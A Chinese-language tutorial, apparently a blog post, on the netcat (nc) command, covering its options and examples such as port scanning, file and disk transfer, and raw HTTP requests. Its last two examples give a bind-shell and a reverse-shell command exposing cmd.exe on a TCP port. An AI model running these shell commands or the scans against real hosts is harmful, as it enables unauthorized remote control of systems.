 	Linux Shell脚本编程－－nc命令使用详解
功能说明：功能强大的网络工具
语　法：nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>][-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
参　数：
 -g<网关> 设置路由器跃程通信网关，最丢哦可设置8个。
 -G<指向器数目> 设置来源路由指向器，其数值为4的倍数。
 -h  在线帮助。
 -i<延迟秒数> 设置时间间隔，以便传送信息及扫描通信端口。
 -l  使用监听模式，管控传入的资料。
 -n  直接使用IP地址，而不通过域名服务器。
 -o<输出文件> 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
 -p<通信端口> 设置本地主机使用的通信端口。
 -r  乱数指定本地与远端主机的通信端口。
 -s<来源位址> 设置本地主机送出数据包的IP地址。
 -u  使用UDP传输协议。
 -v 详细输出--用两个-v可得到更详细的内容
 -w<超时秒数> 设置等待连线的时间。
  -z  使用0输入/输出模式，只在扫描通信端口时使用。
 
nc使用示例
 
1. 端口扫描
# nc -v -w 2 192.168.2.34 -z 21-24
nc: connect to 192.168.2.34 port 21 (tcp) failed: Connection refused
Connection to 192.168.2.34 22 port [tcp/ssh] succeeded!
nc: connect to 192.168.2.34 port 23 (tcp) failed: Connection refused
nc: connect to 192.168.2.34 port 24 (tcp) failed: Connection refused
 
2. 从192.168.2.33拷贝文件到192.168.2.34
在192.168.2.34上： nc -l 1234 > test.txt
在192.168.2.33上： nc 192.168.2.34 < test.txt
 
3. 简单聊天工具
在192.168.2.34上： nc -l 1234
在192.168.2.33上： nc 192.168.2.34 1234
这样，双方就可以相互交流了。使用ctrl+C(或D）退出。
 
4. 用nc命令操作memcached
1）存储数据：printf“set key 0 10 6rnresultrn” |nc 192.168.2.34 11211
2）获取数据：printf“get keyrn” |nc 192.168.2.34 11211
3）删除数据：printf“delete keyrn” |nc 192.168.2.34 11211
4）查看状态：printf“statsrn” |nc 192.168.2.34 11211
5）模拟top命令查看状态：watch“echo stats” |nc 192.168.2.34 11211
6）清空缓存：printf“flush_allrn” |nc 192.168.2.34 11211 (小心操作，清空了缓存就没了）
 
5. nc -p 1234 -w 5 host.example.com 80
建立从本地1234端口到host.example.com的80端口连接，5秒超时
nc -u host.example.com 53
u为UDP连接
 
6. echo -n "GET / HTTP/1.0"r"n"r"n" | nc host.example.com 80
连接到主机并执行
 
7. nc -v -z host.example.com 70-80
扫描端口(70到80)，可指定范围。-v输出详细信息。
 
 
8. 远程拷贝文件
从server1拷贝文件到server2上。需要先在server2上，用nc激活监听，
 
server2上运行：
 
root@hatest2 tmp]# nc -lp 1234 > install.log
 
server1上运行：
 
[root@hatest1 ~]# ll install.log
-rw-r–r–  1 root root 39693 12月 20  2007 install.log
[root@hatest1 ~]# nc -w 1 192.168.228.222 1234 < install.log
 
9. 克隆硬盘或分区
操作与上面的拷贝是雷同的，只需要由dd获得硬盘或分区的数据，然后传输即可。
克隆硬盘或分区的操作，不应在已经mount的的系统上进行。所以，需要使用安装光盘引导后，进入拯救模式（或使用Knoppix工具光盘）启动系统后，在server2上进行类似的监听动作：
# nc -l -p 1234 | dd of=/dev/sda
 
server1上执行传输，即可完成从server1克隆sda硬盘到server2的任务：
# dd if=/dev/sda | nc 192.168.228.222 1234
 
※完成上述工作的前提，是需要落实光盘的拯救模式支持服务器上的网卡，并正确配置IP。
 
 
 
10. 保存Web页面
# while true; do nc -l -p 80 -q 1 < somepage.html; done
 
11. 模拟HTTP Headers,获取网页源代码和返回头部信息
 
[root@hatest1 ~]# nc 80
GET / HTTP/1.1
Host: ispconfig.org
Referrer: mypage.com
User-Agent: my-browser
 
HTTP/1.1 200 OK
Date: Tue, 16 Dec 2008 07:23:24 GMT
Server: Apache/2.2.6 (Unix) DAV/2 mod_mono/1.2.1 mod_python/3.2.8 Python/2.4.3 mod_perl/2.0.2 Perl/v5.8.8
Set-Cookie: PHPSESSID=bbadorbvie1gn037iih6lrdg50; path=/
Expires: 0
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Cache-Control: private, post-check=0, pre-check=0, max-age=0
Set-Cookie: oWn_sid=xRutAY; expires=Tue, 23-Dec-2008 07:23:24 GMT; path=/
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
[......]
在nc命令后，输入红色部分的内容，然后按两次回车，即可从对方获得HTTP Headers内容。
 
 
12. 传输目录
从server1拷贝nginx-0.6.34目录内容到server2上。需要先在server2上，用nc激活监听，server2上运行：
引用
 
[root@hatest2 tmp]# nc -l 1234 |tar xzvf -
server1上运行：
引用
 
[root@hatest1 ~]# ll -d nginx-0.6.34
drwxr-xr-x 8 1000 1000 4096 12-23 17:25 nginx-0.6.34
[root@hatest1 ~]# tar czvf – nginx-0.6.34|nc 192.168.228.222 1234
 
 
13.REMOTE主机绑定SHELL
例子：
 
格式：nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe
讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口
 
 
14.REMOTE主机绑定SHELL并反向连接
例子：
 
格式：nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354
讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口
以上为最基本的几种用法（其实NC的用法还有很多，
当配合管道命令"|"与重定向命令"<"、">"等等命令功能更强大......）。
  